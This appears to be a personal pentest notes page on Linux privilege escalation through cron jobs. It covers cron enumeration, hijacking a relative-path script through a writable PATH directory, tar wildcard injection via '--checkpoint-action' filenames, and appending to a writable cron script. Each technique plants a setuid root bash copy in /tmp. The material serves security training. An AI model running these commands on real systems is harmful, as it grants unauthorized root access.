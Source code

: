 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Cron Jobs

The first five fields at the beginning of the cron job entry are used to specify the scheduled time. These fields are used to specify the following values:

Minute (0 – 59): Used to specify the minute the cron job should be run.
Hour (0 – 23): Used to specify the hour of the day the cron job should be run.
Day of the month (1 – 31): Used to specify the specific day of the month the cron job should be run.
Month (1 – 12): Used to specify the month when the cron job should be run.
Day of the week (0 – 7): Used to specify the day of the week when the cron job should be run.

```bash - target
ls -lah /etc/cron*
```

Find and cat out **any** files.

```bash - target
grep "CRON" /var/log/cron.log
```

```bash - target
cat /etc/crontab 
```

Look at ==WHO IS RUNNING== the task, not who owns it!

![[Pasted image 20220324133531.png]]

![[Pasted image 20220324133642.png]]

![[1._Reverse Shells (LIN)#Python file root execute]]

Also check:
```bash - target
systemctl list-timers --all
```

![[Pasted image 20220220161524.png]]

#### Path Environment Variable

The crontab PATH environment variable is by default set to /usr/bin:/bin

The PATH variable can be overwritten in the crontab file.

If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.

1. View the contents of the system-wide crontab:

```bash - target
cat /etc/crontab
```

>PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```* * * * * root overwrite.sh```
```* * * * * root /usr/local/bin/compress.sh```

![[Pasted image 20211230154452.png]]

Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.

2. Create the file overwrite.sh in /home/user with the following contents:

[[1.2_Root Shell spawn#Script / cronjob]]


#### File nonexistant
Notice the path that is listed, how it starts with /home/user.  Let's check there to see if the file "overwrite.sh" exists:

```bash - target
ls -lah /home/user
```

It does not, so we can create the file to give us root.

```bash - target
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

```bash - target
chmod +x /home/user/overwrite.sh
```

The cron job runs every minute, so just wait until we see bash in /tmp directory, then run:

```bash - target
/tmp/bash -p
```

![[Pasted image 20220220163029.png]]

#### Wildcards
```bash - target
cat /etc/crontab 
```

In this example, we look at /usr/local/bin/compress.sh

```bash - target
cat /usr/local/bin/compress.sh
```

![[Pasted image 20221115135824.png]]

We can take advantage of the wildcard character as seen above.  We'll create a malicious file called "runme.sh"

```bash - target
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
```

```bash - target
chmod +x runme.sh
```

```bash - target
touch /home/user/--checkpoint=1
```

```bash - target
touch /home/user/--checkpoint-action=exec=sh\runme.sh
```

```bash - target
/tmp/bash -p
```

![[Pasted image 20220220164120.png]]

#### Append malicious code

![[Pasted image 20220220161524.png]]

We run ``'locate overwrite.sh'`` to find the location of the file, or, using the PATH, we begin hunting down the overwrite.sh file.  First we look in /home/user, not there, then /usr/local/sbin, not there, then finally we find it in /usr/local/bin.

```bash - target
ls -lah /usr/local/bin/overwrite.sh
```

We see we do have write privileges to the file.  Let's take a peek at what the file does.

```bash - target
cat /usr/local/bin/overwrite.sh
```

Now, we will append on our malicious code the file:

```bash - target
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```

```bash - target
/tmp/bash -p
```

![[Pasted image 20220220165112.png]]


